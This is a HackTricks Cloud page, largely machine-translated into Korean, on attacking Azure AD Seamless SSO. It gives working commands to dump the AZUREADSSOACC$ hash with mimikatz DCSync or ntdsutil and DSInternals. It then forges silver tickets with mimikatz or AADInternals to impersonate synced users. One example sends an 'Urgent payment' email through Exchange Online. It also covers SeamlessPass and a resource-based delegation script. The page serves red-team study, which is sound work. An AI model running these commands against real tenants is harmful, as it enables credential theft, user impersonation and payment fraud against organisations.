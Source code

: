 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO)는 **사용자가 회사 네트워크에 연결된 회사 장치에서 있을 때 자동으로 로그인**합니다. 활성화되면, **사용자는 Azure AD에 로그인하기 위해 비밀번호를 입력할 필요가 없으며**, 일반적으로 사용자 이름도 입력할 필요가 없습니다. 이 기능은 사용자가 추가적인 온프레미스 구성 요소 없이 클라우드 기반 애플리케이션에 쉽게 접근할 수 있도록 합니다.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

기본적으로 Azure AD Seamless SSO는 **온프레미스 도메인에 가입된 PC에서** 사용자를 **로그인**합니다.

이것은 [**PHS (Password Hash Sync)**](phs-password-hash-sync.md)와 [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) 모두에서 지원됩니다.

데스크탑 SSO는 인증을 위해 **Kerberos**를 사용합니다. 구성되면, Azure AD Connect는 온프레미스 AD에 **AZUREADSSOACC`$`라는 컴퓨터 계정을 생성**합니다. `AZUREADSSOACC$` 계정의 비밀번호는 **구성 중에 Azure AD에 평문으로 전송**됩니다.

**Kerberos 티켓**은 비밀번호의 **NTHash (MD4)**를 사용하여 **암호화**되며, Azure AD는 전송된 비밀번호를 사용하여 티켓을 복호화합니다.

**Azure AD**는 Kerberos **티켓**을 수락하는 **엔드포인트**(https://autologon.microsoftazuread-sso.com)를 노출합니다. 도메인에 가입된 머신의 브라우저는 SSO를 위해 이 엔드포인트로 티켓을 전달합니다.

### On-prem -> cloud

사용자 **`AZUREADSSOACC$`의 비밀번호는 절대 변경되지 않습니다**. 따라서 도메인 관리자는 **이 계정의 해시를 손상시킬 수 있으며**, 이를 사용하여 **은 티켓**을 생성하여 **동기화된 모든 온프레미스 사용자**로 Azure에 연결할 수 있습니다.
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
해시를 사용하여 이제 **실버 티켓을 생성할 수 있습니다**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **브라우저 시작:** Mozilla Firefox를 실행해야 합니다.
2. **브라우저 구성:**
* **`about:config`**로 이동합니다.
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)의 기본 설정을 지정된 [값](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)으로 설정합니다:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **웹 애플리케이션 접근:**
* 조직의 AAD 도메인과 통합된 웹 애플리케이션을 방문합니다. 일반적인 예로는 [Office 365](https://portal.office.com/)가 있습니다.
4. **인증 과정:**
* 로그인 화면에서 사용자 이름을 입력하고 비밀번호 필드는 비워둡니다.
* 진행하려면 TAB 또는 ENTER를 누릅니다.

{% hint style="success" %}
이것은 MFA가 활성화된 경우 우회하지 않습니다.
{% endhint %}

#### Option 2 without dcsync - SeamlessPass

이 공격은 **dcsync 공격 없이** 수행할 수도 있습니다. [이 블로그 게시물](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)에서 설명된 대로 더 은밀하게 진행할 수 있습니다. 이를 위해 다음 중 하나만 필요합니다:

* **손상된 사용자의 TGT:** 사용자가 손상되었지만 TGT가 없더라도, [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) 및 [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)와 같은 많은 도구에서 구현된 가짜 TGT 위임 트릭을 사용하여 얻을 수 있습니다.
* **골든 티켓**: KRBTGT 키가 있다면 공격받는 사용자에게 필요한 TGT를 생성할 수 있습니다.
* **손상된 사용자의 NTLM 해시 또는 AES 키:** SeamlessPass는 이 정보를 사용하여 도메인 컨트롤러와 통신하여 TGT를 생성합니다.
* **AZUREADSSOACC$ 계정 NTLM 해시 또는 AES 키:** 이 정보와 공격할 사용자의 보안 식별자(SID)를 사용하여 서비스 티켓을 생성하고 클라우드에 인증할 수 있습니다(이전 방법에서 수행한 대로).

마지막으로, TGT를 사용하여 [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) 도구를 사용할 수 있습니다:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Firefox를 원활한 SSO와 함께 작동하도록 설정하는 추가 정보는 [**이 블로그 게시물에서**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) 확인할 수 있습니다.

#### ~~클라우드 전용 사용자에 대한 Kerberos 티켓 생성~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory 관리자가 Azure AD Connect에 접근할 수 있다면, **클라우드 사용자에 대한 SID를 설정할 수 있습니다**. 이렇게 하면 Kerberos **티켓**이 **클라우드 전용 사용자에 대해서도 생성될 수 있습니다**. 유일한 요구 사항은 SID가 적절한 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))여야 한다는 것입니다.

{% hint style="danger" %}
클라우드 전용 관리자 사용자의 SID 변경은 현재 **Microsoft에 의해 차단되었습니다**.\
자세한 정보는 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)를 확인하세요.
{% endhint %}

### 온프레미스 -> 클라우드 리소스 기반 제약 위임을 통한 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

이 계정이 있는 컨테이너 또는 OU에서 컴퓨터 계정을 관리할 수 있는 사람은 **계정에 대한 리소스 기반 제약 위임을 구성하고 접근할 수 있습니다**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

